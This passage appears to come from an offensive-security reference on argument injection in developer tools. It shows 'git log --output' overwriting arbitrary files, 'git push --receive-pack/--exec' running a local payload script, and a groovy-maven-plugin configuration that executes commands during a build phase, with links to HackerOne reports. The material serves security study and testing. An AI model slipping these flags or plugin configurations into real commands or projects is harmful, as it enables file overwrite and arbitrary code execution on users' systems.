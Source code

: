 ```bash
$ git log --output=/tmp/arbitrary_file
$ cat /tmp/arbitrary_file
commit c79538fb19b1d9d21bf26e9ad30fdeb90be1eaf0
Author: User <user@local>
Date:   Fri Aug 29 00:00:00 2021 +0000

    Controlled content
```

References:
- [Report: Git flag injection - local file overwrite to remote code execution](https://hackerone.com/reports/658013)
- [Report: Git flag injection leading to file overwrite and potential remote code execution](https://hackerone.com/reports/653125)

## git-push

{% embed url="https://git-scm.com/docs/git-push" %}

### --receive-pack/--exec

[receive-pack or exec](https://git-scm.com/docs/git-push#Documentation/git-push.txt---receive-packltgit-receive-packgt) specifies a path to the [git-receive-pack](https://git-scm.com/docs/git-receive-pack) program on the remote end. You can execute arbitrary code like this:

```bash
$ echo "#!/bin/bash" > payload.sh
$ echo "echo 'arbitrary payload here'" >> payload.sh
$ chmod +x payload.sh
$ git push --receive-pack=payload.sh username/repo main
# or
$ git push --exec=payload.sh username/repo main
# or
$ git push --receive-pack=payload.sh main
```

# maven

Execution of arbitrary commands or code during `mvn <PHASE>` execution is possible through the use of various plugins such as [exec-maven-plugin](https://www.mojohaus.org/exec-maven-plugin/) or [groovy-maven-plugin](https://groovy.github.io/gmaven/groovy-maven-plugin/index.html). In order to execute a malicious payload using the `groovy-maven-plugin` plugin during the phase `<PHASE>` you can use the following configuration:

```xml
<plugin>
  <groupId>org.codehaus.gmaven</groupId>
  <artifactId>groovy-maven-plugin</artifactId>
  <executions>
    <execution>
      <phase><!-- PHASE_HERE --></phase>
      <goals>
        <goal>execute</goal>
      </goals>
      <configuration>
        <source>
          print "cmdname arg1 arg2".execute().text
        </source>
      </configuration>
    </execution>
  </executions>
</plugin>
```
